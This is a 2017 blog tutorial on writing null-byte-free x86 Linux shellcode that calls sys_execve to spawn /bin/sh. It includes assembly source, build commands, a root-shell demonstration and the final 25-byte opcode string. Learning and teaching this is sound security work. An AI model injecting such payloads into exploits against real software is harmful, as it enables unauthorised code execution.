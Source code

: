 ```yaml
---
layout: post
title:  "Creating a simple x86 shellcode"
date:   2017-09-17 01:51:00
disqus: true
categories: Reversing
---
```

It's a simple x86 shellcode to call /bin/sh, but the first thing is understand how the sys_execve works, to do so you can access this <a href="https://syscalls.kernelgrok.com/" target="_blank">site</a> that gives to you a list with all the x86 syscalls, and the values you need to put in each register, just search for sys_execve.

The initial code bellow have all the comments to make it easy to understand how to use the sys_execve,

{% highlight Bash %}
section .data:
	cmd: db "/bin/sh",0x0
section .text:
	global _start
	_start:
		mov eax,0x0b	;use sys_execve
		mov ebx,cmd	;first arg, file to execute
		mov edx,0x0	;first parameter no usage
		mov ecx,0x0	;second parameter no usage
		int 0x80	;kernel interrupt
{% endhighlight %}

Just to test this code, lets compile it, link and execute the binary shell to get the /bin/sh

{% highlight Bash %}
root@demoniware:~/shellcode# nasm -f elf32 sh3llc0d3.asm && ld -m elf_i386 -s -o shell sh3llc0d3.o
root@demoniware:~/shellcode# ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

But this code is not nullbyte free and it's a problem when we are working with shellcodes, so with some work I got this code,

{% highlight Bash %}
xor eax,eax ;zero to eax
push eax ;put 0 in stack, end of string
push 0x68732f6e ; part of /bin/sh
push 0x69622f2f ; part of /bin/sh
mov ebx,esp; mov /bin/sh to ebx
push eax; put NULL on argv
push ebx; put filename on stack
mov ecx, esp; put filename to ecx
xor edx,edx; envp = NULL
mov al,0x0b; 0x0b to call sys_execve
int 0x80; kernel interrupt
{% endhighlight %}

To confirm if my code is free of nullbytes, I used this site <a href="https://defuse.ca/online-x86-assembler.htm#disassembly" target="_blank">defuse.ca</a>, that translate asm instructions to opcodes or just use objdump, and now I have a shellcode free of nullbytes with 25 bytes because the shellcode does not need the prologue

{% highlight Bash %}
\x31\xC0\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x89\xE1\x31\xD2\xB0\x0B\xCD\x80
{% endhighlight %}
